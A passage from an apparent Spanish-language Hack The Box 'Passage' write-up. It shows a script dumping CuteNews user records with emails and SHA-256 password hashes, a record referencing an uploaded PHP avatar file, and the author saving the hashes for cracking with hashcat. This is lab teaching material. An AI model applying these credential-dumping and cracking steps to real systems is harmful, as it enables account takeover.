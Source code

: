 ```json
–» ./extractusers.sh 
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}

a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}

a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}

a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}

a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}

a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}

a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}

a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}

a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}

a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}

a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}

a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}
```

Vemos usuario, email y pass (password supongo). Tomemos las passwords, que son hashes en formato SHA-256 y guardémoslas en un archivo, para posteriormente apoyarnos de `hashcat` y crackearlos:

```bash
–» cat hashes
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
```
